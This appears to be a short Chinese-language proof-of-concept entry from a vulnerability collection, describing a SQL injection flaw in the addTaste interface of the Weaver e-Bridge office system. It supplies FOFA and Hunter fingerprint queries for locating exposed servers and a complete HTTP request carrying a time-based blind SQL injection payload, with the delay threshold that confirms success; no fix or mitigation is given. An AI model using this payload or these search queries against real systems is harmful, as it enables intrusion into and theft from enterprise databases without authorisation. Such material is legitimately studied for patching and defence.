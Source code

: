 ## 泛微云桥 e-Bridge addTaste接口SQL注入漏洞

e-Bridge 提供了一套全面的办公自动化工具，包括文档管理、流程管理、协同办公、知识管理、移动办公等功能。它的核心理念是将企业内部的各种业务流程数字化，并通过云端技术实现跨部门、跨地域的协同办公和信息共享。该系统 addTaste接口存在SQL注入漏洞，通过此漏洞攻击者可获取企业数据库敏感数据。


## fofa
```
app="泛微-云桥e-Bridge"
```
## hunter
```
app.name="泛微云桥 e-Bridge OA"
```

## poc
```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(9-(IF(18015%3e3469,0,4)))))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: */*
Cookie: EBRIDGE_JSESSIONID=CAE1276AE2279FD98B96C54DE624CD18; sl-session=BmCjG8ZweGWzoSGpQ1QgQg==; EBRIDGE_JSESSIONID=21D2D790531AD7941D060B411FABDC10
Accept-Encoding: gzip
SL-CE-SUID: 25
```
延迟时间大于5秒

![0369e1c147602f35b76105a4f2aebd91](https://github.com/wy876/POC/assets/139549762/0aee421c-131e-4a03-b2d9-c046abdb27f2)
